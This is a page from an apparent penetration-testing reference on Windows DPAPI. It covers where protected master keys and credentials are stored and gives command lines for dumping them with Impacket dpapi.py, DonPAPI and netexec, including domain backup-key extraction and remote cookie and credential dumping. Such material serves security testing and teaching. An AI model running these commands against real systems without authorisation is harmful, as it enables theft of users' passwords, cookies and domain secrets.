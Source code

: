 ## Theory
The DPAPI (Data Protection API) is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at:
```bash
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```
Application like Google Chrome, Outlook, Internet Explorer, Skype use the DPAPI. Windows also uses that API for sensitive information like Wi-Fi passwords, certificates, RDP connection passwords, and many more.
Common paths of hidden files that usually contain DPAPI-protected data:
```bash
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```
## DPAPI dumping
=== "UNIX-like"
    From UNIX-like systems, DPAPI-data can be manipulated (mainly offline) with tools like Impacket's [dpapi.py](https://github.com/fortra/impacket/blob/master/examples/dpapi.py) and secretsdump.py (Python) or [donpapi](https://github.com/login-securite/DonPAPI).
    ```bash
    # (not tested) Decrypt a master key
    dpapi.py masterkey -file "/path/to/masterkey_file" -sid $USER_SID -password $MASTERKEY_PASSWORD

    # (not tested) Obtain the backup keys & use it to decrypt a master key
    dpapi.py backupkeys -t $DOMAIN/$USER:$PASSWORD@$TARGET
    dpapi.py masterkey -file "/path/to/masterkey_file" -pvk "/path/to/backup_key.pvk"

    # (not tested) Decrypt DPAPI-protected data using a master key
    dpapi.py credential -file "/path/to/protected_file" -key $MASTERKEY
    ```
    DonPAPI (Python) can also be used to remotely extract a user's DPAPI secrets more easily. It supports pass-the-hash, pass-the-ticket and so on.
    ```bash
    DonPAPI.py 'domain'/'username':'password'@<'targetName' or 'address/mask'>
    ```
    Or it can be done with netexec
    ```bash
    nxc smb <ip> -u user -p password --dpapi
    nxc smb <ip> -u user -p password --dpapi cookies
    nxc smb <ip> -u user -p password --dpapi nosystem
    nxc smb <ip> -u user -p password --local-auth --dpapi nosystem
    ```
    !!! note
        need at least local admin privilege on the remote target, use **--local-auth** if your user is a local account